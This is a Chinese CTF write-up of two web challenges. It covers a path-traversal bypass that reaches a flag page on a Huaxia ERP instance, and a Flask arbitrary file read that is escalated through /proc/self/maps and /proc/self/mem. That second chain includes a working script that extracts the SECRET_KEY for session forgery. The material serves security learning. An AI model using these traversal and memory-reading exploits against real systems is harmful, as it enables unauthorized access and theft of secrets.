



## ezbypass



在js里面发现是**华夏erp**

找了一下，挺多漏洞的，开始以为是sql注入拿密码，但是密码被加密了拿不到

然后想想就只能是**fastjson打rce**了，可惜自己不会**java**

后来想起来提示 **Flag 在 flag.html 下**

那直接未授权访问就好了

```bash
xlccccc@xl-pc:~$ curl http://223.112.5.156:62859/a.png/%2e%2e/flag.html
<!DOCTYPE html>
<html>
<head><meta charset="utf-8">
<meta content="webkit" name="renderer"/>
<meta http-equiv="X-UA-Compatible" content="IE=edge">
<meta http-equiv="Cache-Control" content="no-cache, no-store, must-revalidate"/>
<meta content="no-cache" http-equiv="Pragma"/>
<meta http-equiv="Expires" content="0"/>
<meta content="width=device-width, initial-scale=1, user-scalable=1" name="viewport"/>
<title>EzBypass</title>
<link rel="shortcut icon" href="images/favicon.ico" type="image/x-icon"/>
<script src="js/jquery/jquery-1.12.4.min.js"></script>
<link rel="stylesheet" href="css/fonts/font-icons.min.css"><link rel="stylesheet" href="js/bootstrap/css/bootstrap.min.css">
<link rel="stylesheet" href="js/adminlte/css/AdminLTE.min.css">
<link rel="stylesheet" href="js/adminlte/css/skins/skin-blue-light2.css">
</head><body class="hold-transition ">
<h1>cyberpeace{de9adc3f629707fba4b1f5ec8f3236e6}</h1>
```

拿到flag

## catcat

```
http://223.112.5.156:50603/info?file=../app.py
```

存在任意文件读取漏洞

**app.py**

```python
import os
import uuid
from flask import Flask, request, session, render_template, Markup
from cat import cat

flag = ""
app = Flask(
     __name__,
 static_url_path='/', 
 static_folder='static' 
)
app.config['SECRET_KEY'] = str(uuid.uuid4()).replace("-", "") + "*abcdefgh"
if os.path.isfile("/flag"):
 flag = cat("/flag")
 os.remove("/flag")

@app.route('/', methods=['GET'])
def index():
 detailtxt = os.listdir('./details/')
 cats_list = []
 for i in detailtxt:
    cats_list.append(i[:i.index('.')])
 
 return render_template("index.html", cats_list=cats_list, cat=cat)


@app.route('/info', methods=["GET", 'POST'])
def info():
 filename = "./details/" + request.args.get('file', "")
 start = request.args.get('start', "0")
 end = request.args.get('end', "0")
 name = request.args.get('file', "")[:request.args.get('file', "").index('.')]
 
 return render_template("detail.html", catname=name, info=cat(filename, start, end))
 


@app.route('/admin', methods=["GET"])
def admin_can_list_root():
 if session.get('admin') == 1:
    return flag
 else:
    session['admin'] = 0
 return "NoNoNo"


if __name__ == '__main__':
 app.run(host='0.0.0.0', debug=False, port=5637)
```

**cat.py**

```python
import os, sys, getopt


def cat(filename, start=0, end=0)->bytes:
 data = b''
 
 try:
    start = int(start)
    end = int(end)
 
 except:
    start=0
    end=0
 
 if filename != "" and os.access(filename, os.R_OK):
    f = open(filename, "rb")

    if start >= 0:
        f.seek(start)
        if end >= start and end != 0:
            data = f.read(end-start)
 
        else:
            data = f.read()
 
    else:
        data = f.read()
 
    f.close()
 
 else:
    data = ("File `%s` not exist or can not be read" % filename).encode()
 
 return data


if __name__ == '__main__':
 opts,args = getopt.getopt(sys.argv[1:],'-h-f:-s:-e:',['help','file=','start=','end='])
 fileName = ""
 start = 0
 end = 0
 
 for opt_name, opt_value in opts:
    if opt_name == '-h' or opt_name == '--help':
        print("[*] Help")
        print("-f --file File name")
        print("-s --start Start position")
        print("-e --end End position")
        print("[*] Example of reading /etc/passwd")
        print("python3 cat.py -f /etc/passwd")
        print("python3 cat.py --file /etc/passwd")
        print("python3 cat.py -f /etc/passwd -s 1")
        print("python3 cat.py -f /etc/passwd -e 5")
        print("python3 cat.py -f /etc/passwd -s 1 -e 5")
        exit()

    elif opt_name == '-f' or opt_name == '--file':
        fileName = opt_value
 
    elif opt_name == '-s' or opt_name == '--start':
        start = opt_value
 
    elif opt_name == '-e' or opt_name == '--end':
        end = opt_value

    if fileName != "":
        print(cat(fileName, start, end)) 
 
    else:
        print("No file to read")
```

有意思的点不多，就下面几种：

- `app.config['SECRET_KEY'] = str(uuid.uuid4()).replace("-", "") + "*abcdefgh"`以***abcdefgh**结尾？两种可能，第一爆破（没见过这种jwt），第二种就是告诉你它的标志性字符，让你可以正则匹配到
- **cat.py**在打开文件读取数据后关闭了，不会出现`os.remove()`掉了但是没有关闭文件，导致**flag**在`/proc/self/fd/x`中还保留，但是它给了一个`start end`，**给出的就一定是有用的**

非常规的就这两个地方，`render_template`在有固定模板的情况下是打不了**ssti**的

然后就会发现这两个点惊人的匹配了 **2022蓝帽杯的web题file_session**

这里就简单介绍一下，具体我会写一篇详细的有关`/proc`的文章

有的**密钥**在出题人的控制下是可以在`/proc/self/environ`中读到的，但本题读不到

所以只能读该程序的内存，从内存中读到**密钥**

所以首先读取`/proc/self/maps`，看一下内存的分布（截取一部分

```
5650e561c000-5650e561d000 r--p 00000000 fd:00 80743970 /usr/local/bin/python3.7
5650e561d000-5650e561e000 r-xp 00001000 fd:00 80743970 /usr/local/bin/python3.7
5650e561e000-5650e561f000 r--p 00002000 fd:00 80743970 /usr/local/bin/python3.7
5650e561f000-5650e5620000 r--p 00002000 fd:00 80743970 /usr/local/bin/python3.7
5650e5620000-5650e5621000 rw-p 00003000 fd:00 80743970 /usr/local/bin/python3.7
5650e6981000-5650e6982000 ---p 00000000 00:00 0 [heap]
5650e6982000-5650e6986000 rw-p 00000000 00:00 0 [heap]
7ff75b648000-7ff75b64c000 rw-p 00000000 00:00 0 
7ff75b657000-7ff75b65b000 rw-p 00000000 00:00 0 
7ff75b74c000-7ff75b750000 rw-p 00000000 00:00 0 
7ff75b80d000-7ff75b84d000 rw-p 00000000 00:00 0 
7ff75b852000-7ff75b856000 rw-p 00000000 00:00 0 
7ff75ba63000-7ff75baa7000 rw-p 00000000 00:00 0 
7ff75baa7000-7ff75baa9000 ---p 00000000 00:00 0 
7ff75baa9000-7ff75bbb2000 rw-p 00000000 00:00 0 
7ff75bbb3000-7ff75bc21000 rw-p 00000000 00:00 0 
7ff75bc24000-7ff75bc2c000 rw-p 00000000 00:00 0 
7ff75bc2f000-7ff75bd65000 rw-p 00000000 00:00 0 
7ff75bd66000-7ff75bde9000 rw-p 00000000 00:00 0 
7ff75bdec000-7ff75be30000 rw-p 00000000 00:00 0 
```

然后将16进制的内存转为十进制，利用`f.seek(start)`读内存

**直接读是读不到的，必须给出起始位置和长度**





可以看到是读到了内容的，接下来就是写个脚本

```python
import requests, re
url = "http://223.112.5.156:50603/"
maps_url = f"{url}/info?file=../../../../../proc/self/maps"
#需要匹配的堆地址
maps_reg = "([a-z0-9]{12}-[a-z0-9]{12}) rw.*?00000000 00:00 0"
#从/proc/self/maps中匹配堆地址位置
maps = re.findall(maps_reg, requests.get(maps_url).text)
# print(maps)
#从匹配到的结果一个个遍历读取
for m in maps:
 start, end = m.split("-")[0], m.split("-")[1]
 start, end = str(int(start, 16)), str(int(end, 16))
 read_url = f"{url}/info?file=../../../../../proc/self/mem&start={start}&end={end}"
 s = requests.get(read_url).content
 print(s)
 # 匹配的secret_key格式
 rt = re.findall(b"[a-z0-9]{8}[a-z0-9]{4}[a-z0-9]{4}[a-z0-9]{4}[a-z0-9]{12}\*abcdefgh", s)
 if rt:
    print(rt)
    print(start + '  ' + end)
    break
```

运行就可得到**SECRET_KEY**，伪造**session**便可拿到flag